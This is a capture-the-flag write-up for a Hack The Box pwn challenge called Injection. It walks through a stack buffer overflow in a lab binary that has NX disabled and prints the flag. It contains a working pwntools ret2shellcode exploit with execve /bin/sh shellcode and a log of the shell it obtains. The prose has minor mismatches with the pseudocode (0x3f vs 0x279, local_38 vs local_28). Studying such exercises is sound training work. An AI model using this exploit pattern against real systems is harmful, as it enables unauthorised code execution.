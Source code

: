 # Injection :sleepy:

### Description: 

* There is a guard in front of the door. You need to hurry up and inject him so that he falls asleep.

### Objective: 

* Take advantage of *bof* and lack of NX and use **ret2shellcode** technique.   

### Flag:
* HTB{sh3llc0d3_1nj3ct10n_d0n3!}

### Difficulty:
* Very Easy

### Challenge:

First of all, we start with a `checksec`:  

```console
$ checksec ./injection_shot
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

As we can see:  

* **PIE enabled**
* **Full RELRO**  

But, **NX** is disabled and there is **no canary**. 

That means there might be a possible *BufferOverflow* and *code execution*.

Well, the challenge name is a big hint that we should *inject* shellcode..  

The interface of the challenge looks like this:

```console
$ ./injection_shot 
Do you see the guard over there?
You need to sneak and inject the shot in order to make him sleep!
Can you do it?
1. Of course!
2. I do not think so..
> 2
Mission failed! ❌
$ ./injection_shot 
Do you see the guard over there?
You need to sneak and inject the shot in order to make him sleep!
Can you do it?
1. Of course!
2. I do not think so..
> 1
Let me give you this in order to help you: [0x7ffd1f117800]
Hurry up, you need to do it now!
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Mission failed! ❌
Segmentation fault (core dumped)
```

We can see that there is a *seg fault*, that means that we can use *buffer overflow techniques*.  

No more talking, let's head to the disassembler.  

#### Disassembly  

As we can see from the pseudocode of `main`:  

```c
undefined8 main(void)

{
  int local_2c;
  undefined local_28 [32];
  
  setup();
  printf(
        "Do you see the guard over there?\nYou need to sneak and inject the shot in order to makehim sleep!\nCan you do it?\n1. Of course!\n2. I do not think so..\n> "
        );
  __isoc99_scanf(&DAT_00100aa2,&local_2c);
  if (local_2c == 1) {
    printf("Let me give you this in order to help you: [%p]\nHurry up, you need to do it now!\n> ",
           local_28);
    read(0,local_28,0x279);
    puts(&DAT_00100afc);
    return 0;
  }
  puts(&DAT_00100afc);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

There are 2 points that can help us proceed:

* There is a leak of a stack address (the buffer where we can store our payload) at: 

  `printf("Let me give you this in order to help you: [%p]\nHurry up, you need to do it now!\n> ",local_28);`

* There is a *bof* because   `read(0,local_28,0x3f);` reads up to 0x279 bytes and the `local_38` buffer can store up to 32 bytes.  

Now that we know the 2 vulnerable parts of the program, our goal is: 

* Inject shellcode in the buffer.
* Overflow the buffer and redirect the program to call it.

As long as **PIE** is enabled, this is our only way to proceed.  

The payload looks like this: 

```python
payload = sc + nops*(len(junk) - len(sc)) + p64(buf_adrr)
```

#### Exploit 

```python
#!/usr/bin/python3
from pwn import *

ip = '172.17.0.1' # change this
port = 1337 # change this
fname = './injection_shot' # change this

LOCAL = False

if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

ru = lambda x : r.recvuntil(x)
inter = lambda : r.interactive()
sla = lambda x,y : r.sendlineafter(x,y)
sa = lambda x,y : r.sendafter(x,y)

def leak_stack():
	sla('>', '1')
	ru('[')
	leaked = int(ru(']')[:-1], 16)
	return leaked

def inject_sc(payload):
	sa('>', payload)
	inter()

def pwn():
	junk = b'A'*40
	nops = b'\x90'
	sc = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'
	buf_adrr = leak_stack()
	log.info('Leaked addr: 0x{:x}'.format(buf_adrr))
	payload = sc + nops*(len(junk) - len(sc)) + p64(buf_adrr)
	inject_sc(payload)
	
if __name__ == '__main__':
	pwn()
```

### PoC

```console
$ ./solver.py 
[+] Opening connection to 172.17.0.1 on port 1337: Done
[*] Leaked addr: 0x7ffec1c33990
[*] Switching to interactive mode
 Mission failed! ❌
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
HTB{sh3llc0d3_1nj3ct10n_d0n3!}
```
